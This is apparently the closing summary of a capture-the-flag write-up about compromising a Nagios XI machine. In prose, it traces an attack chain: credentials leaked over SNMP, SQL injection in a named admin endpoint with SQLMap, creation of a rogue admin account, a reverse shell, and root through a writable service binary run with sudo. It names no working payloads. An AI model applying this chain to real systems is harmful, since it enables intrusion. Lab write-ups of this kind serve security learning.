# [](#conclusions)Conclusion

This was a nice ride. Lots of rabbit holes along the way, but lots of new things learned. We were able to find our way in the website by first using snmpwalk which leaked some unprivileged user credentials. With these, we were able to create authentication tokens at `/nagiosxi/api/v1/authenticate` endpoint, which were then used to test a SQL injection at `/nagiosxi/admin/banner_message-ajaxhelper.php` endpoint. With SQLMap, we were able to retrieve the administrator API key, which was used to create a new admin account under Nagios XI. Then, this newly created admin account provided us the opportunity to run a reverse shell within Nagios XI commands, granting us the user shell.

From there, we simply listed all sudo commands that we could run without a password to find one that used service running from a binary that we had write permissions. We added our second reverse shell payload into it, restarted the service, and got the root shell.

Simply amazing!

I hope you liked this write-up and learned something new. As always, don’t forget to do your **research!**

<a href="/">Go back</a>

